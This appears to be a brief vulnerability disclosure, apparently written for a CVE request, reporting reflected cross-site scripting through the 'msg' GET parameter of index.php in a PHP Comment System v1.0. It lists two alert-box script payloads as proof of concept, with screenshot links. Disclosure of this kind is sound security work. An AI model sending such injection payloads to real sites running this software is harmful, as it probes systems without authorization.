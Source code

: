 # Comment System v1.0 has reflected cross-site scripting vulnerability

BUG_Author: kanyulu

Website source code address: https://www.sourcecodester.com/php/14713/comment-system-phpmysqli-full-source-code.html

Vulnerability File: /Comment_System/index.php

GET parameter "msg" exists reflected cross-site scripting vulnerability

Payload1: msg=<script>alert('xss')</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/1.png)

Payload2: msg=<script>alert(789)</script>

![image](https://github.com/kanyl6/CVERequest/blob/main/2.png)
